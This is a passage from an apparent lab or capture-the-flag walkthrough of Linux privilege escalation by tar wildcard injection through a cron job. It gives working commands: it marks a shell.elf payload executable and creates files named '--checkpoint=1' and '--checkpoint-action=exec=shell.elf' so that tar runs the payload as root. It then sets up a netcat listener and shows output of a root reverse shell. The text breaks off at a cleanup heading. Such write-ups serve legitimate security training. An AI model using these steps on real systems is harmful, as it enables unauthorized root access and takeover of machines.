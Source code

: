 **3. Make the Binary Executable:**

Ensure that the transferred binary is executable:

```bash
chmod +x /home/user/shell.elf
```

**Explanation:**  
Making the binary executable is crucial so that it can be run by the system when the cron job is triggered.

**4. Create Malicious Tar Checkpoint Files:**

Create the following two files in the `/home/user` directory:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

**Explanation:**  
These files are named to look like valid `tar` command options. When `tar` processes the wildcard (`*`), it will treat these files as if they were command-line options and execute the `shell.elf` binary.

### Step 3: Set Up a Netcat Listener

Before the cron job runs, set up a netcat listener on your Kali box to catch the reverse shell:

```bash
nc -nvlp 4444
```

**Explanation:**  
Netcat will listen on port `4444` for incoming connections. Once the `tar` command runs, the reverse shell will connect back to this listener, giving you root access.

**Sample Output:**

```bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.51.207.
Ncat: Connection from 10.10.51.207:39219.
id
uid=0(root) gid=0(root) groups=0(root)
```

**Explanation:**  
Once the cron job runs, the reverse shell is executed, and a connection is made to your listener, granting you a root shell on the target system.

### Cleanup

After gaining root access, remove the files you created to prevent the cron job from executing the reverse shell again:
